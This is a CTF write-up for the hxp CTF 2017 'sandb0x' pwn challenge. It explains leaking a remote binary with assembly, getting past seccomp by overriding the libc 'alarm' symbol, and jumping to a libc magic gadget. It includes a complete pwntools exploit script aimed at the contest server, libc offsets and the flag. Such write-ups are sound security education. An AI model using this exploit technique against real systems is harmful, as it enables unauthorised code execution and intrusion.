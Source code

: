 # Writeup for sandb0x (pwn, 200 + 75 pts, 4 solves), hxp CTF 2017

Description:

> see http://www.gifbin.com/bin/33yusw44837sw.gif
> Download: [b2ba438dde0be512af486c0d2f1139a9eda8a607632dc4746dc60f75b2c36121.tar.xz](https://2017.ctf.link/assets/files/b2ba438dde0be512af486c0d2f1139a9eda8a607632dc4746dc60f75b2c36121.tar.xz)
> Connection: nc 35.198.105.104 26739

## TL;DR

- we can upload assembly code wich gets executed

- seccomp filters prevent us from using most syscalls

- overwrite libc symbols in the assembly to bypass seccomp

- leak the remote binary and libc

- let the assembly code jump to a magic gadget to get a shell

## The Task

We can input up to 80 characters of x86-64 assembler in AT&T syntax, and the target will compile it together with a `main.c` and execute it on the remote server. We don't know the contents of `main.c`, but it will likely set up a seccomp filter before calling our code, because the binary is linked against libseccomp (`-lseccomp`).

## The Bug

The obvious vulnerability is that we can execute code on the target machine, although only in small chunks of 80 characters. Another vulnerability is that we are able to export symbols from our assembly code to the linker (`.global` is allowed), which allows us to overwrite functions imported from libraries.

## The Exploit

We have no idea of what syscalls the seccomp filter allows or what the contents of `main.c` are, so the first thing to do is leak the remote binary. I used the following code:

```assembly_x86
mov $1,%rax;
mov $1,%rdi;
mov (%rsp),%rsi;
sub $0,%rsi;
mov $9999,%rdx;
syscall
```

Increase the amount subtracted from `rsi` until you hit the ELF header, then increase it to leak the first segment of the binary, which contains all of the code.

Using the same technique, we can leak the second segment of the binary containing the data, bss and GOT. With the GOT, the string table and the references to the GOT from the code, we can resolve the addresses of `_IO_2_1_stdin_`, `_IO_2_1_stdout_` and `_IO_2_1_stderr_` and use [libc.blukat.me](https://libc.blukat.me/) to find 6 versions of libc with matching offsets.

After analyzing the leaked code we see that the seccomp filters only allow `write`, `exit`, `clock_gettime` and `exit_group` syscalls, but we can bypass seccomp easily by exporting our own `alarm` function, which the binary calls instead of libc's `alarm` before setting up seccomp.

At this point, we know the remote libc (we have 6 possibilities, but we will just try them all), and we can execute a small amount of code without syscall restrictions. To finally pop a shell, we hook the `alarm` function, calculate the address of libc's magic gadget, and jump there:

(`r11` contains the address of libc's `setbuf` when `alarm` is called, and `$XX` should be replaced with the offset of the magic gadget from `setbuf`)

```assembly_x86
.global alarm;
alarm:
add $XX,%r11;
jmp %r11
```

Putting everything together, we end up with the following exploit:

```python
from pwn import *

context.arch = 'amd64'

def exe(code):
    code = ''.join(c for c in code if c in '0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ%.,;:()$_- ')

    r = remote('35.198.105.104', 26739)
    r.sendlineafter('x86-64> ', code)
    out = r.recvrepeat(1)

    if r.connected('recv'):
        info("-- GOT SHELL --")
        r.interactive()
    r.close()

    return out

if __name__ == '__main__':

    libcs = [('remote_libc/libc6_2.24-3ubuntu1_amd64.so', 0x455aa),
             ('remote_libc/libc6_2.24-3ubuntu2_amd64.so', 0x455aa),
             ('remote_libc/libc6_2.24-9ubuntu2_amd64.so', 0x4557a),
             ('remote_libc/libc6-amd64_2.24-3ubuntu1_i386.so', 0x3f3ea),
             ('remote_libc/libc6-amd64_2.24-3ubuntu2_i386.so', 0x3f3ea),
             ('remote_libc/libc6-amd64_2.24-9ubuntu2_i386.so', 0x3f3da)]

    for path, magic in libcs:
        e = ELF(path)
        offset = magic - e.symbols['setbuf']
        info("libc: %s, offset: 0x%x" % (path, offset))

        info("%s\n%s" % exe('''
.global alarm;
alarm:
add ${},%r11;
jmp %r11'''.format(offset)))
```

The very last of our libc candidates succeeds and we get a shell.

Flag: `hxp{w3nn_1ch_6r055_b1n_5p13l3_1ch_n1ch7_m3hr_1m_54ndk4573n}`
